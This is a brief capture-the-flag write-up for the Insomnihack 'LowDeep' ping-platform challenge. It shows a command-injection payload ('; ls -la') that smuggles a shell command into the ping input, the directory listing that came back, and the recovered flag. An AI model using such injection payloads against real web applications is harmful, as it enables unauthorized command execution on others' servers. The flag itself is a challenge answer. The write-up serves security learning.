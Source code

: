 # LowDeep

> Try out our new ping platform: http://lowdeep.insomnihack.ch/

In this challenge, we have simple command injection vulnerability.

Payload: `; ls -la`

Result:
```
ping: : Name or service not known
total 28
drwxr-xr-x 3 root root 4096 Jan 17 09:57 .
drwxr-xr-x 3 root root 4096 Jan 7 16:52 ..
drwxr-xr-x 4 root root 4096 Jan 17 09:57 _res_
-rw-r--r-- 1 root root 1367 Jan 16 15:30 index.php
-rw-r--r-- 1 root root 6128 Jan 16 13:10 print-flag
-rw-r--r-- 1 root root 42 Jan 16 15:35 robots.txt
```

Next, we can download `print-flag` application [link](http://lowdeep.insomnihack.ch/print-flag), [local copy](print-flag).

`strings print-flag` reveals the flag.

Flag: `INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}`
